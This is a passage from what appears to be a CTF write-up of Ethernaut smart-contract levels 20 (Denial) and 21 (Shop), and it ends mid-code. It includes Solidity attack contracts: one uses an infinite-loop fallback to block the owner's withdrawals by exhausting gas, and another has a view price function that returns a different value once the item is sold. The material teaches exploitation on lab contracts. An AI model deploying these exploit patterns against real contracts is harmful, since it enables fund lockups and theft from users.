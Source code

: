 ```js
uint256 public a = uint256(keccak256(abi.encodePacked(uint256(1))));
uint256 public max = 2\*\*256 - 1;
uint256 public index = max - a + 1;
```

## <a id="20"></a>Level 20 - Denial

### Objective

1. Deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less).

<details><summary>Level Contract</summary></details>

### Exploit

We can't _D.O.S._ with an unexepected `revert` since it uses `call`.

Instead I deployed the following `Hack` contract. I has an inifite loop that will consume all of the gas before reaching the `transfer` function.

```js
contract Hack {
    receive() external payable {
        while(true){
        }
    }
}
```

All that is needed is to set this contract's address as the withdraw partner with `setWithdrawPartner`.

## <a id="21"></a>Level 21 - Shop

### Objective

1. Get the item from the shop for less than the price asked.

<details><summary>Level Contract</summary></details>

### Exploit

The `Shop` contract relies on `price` from an external contract to determine what price the item will sell for. It attempts to prevent exploits by the fact that `price` is a `view` function. However there is still a way to exploit the use of an interface.

I deployed the following `Hack` contract that has a `price` function. I returns different values based on a condition even while being a `view` function.

```js
contract Hack {
    Shop target;

    constructor(address _targetAddress){
        target = Shop(_targetAddress);
    }

    function hack() external {
        target.buy();
    }

    function price() external view returns(uint) {
        if(target.isSold() == false){
            return 100;
        } else {
```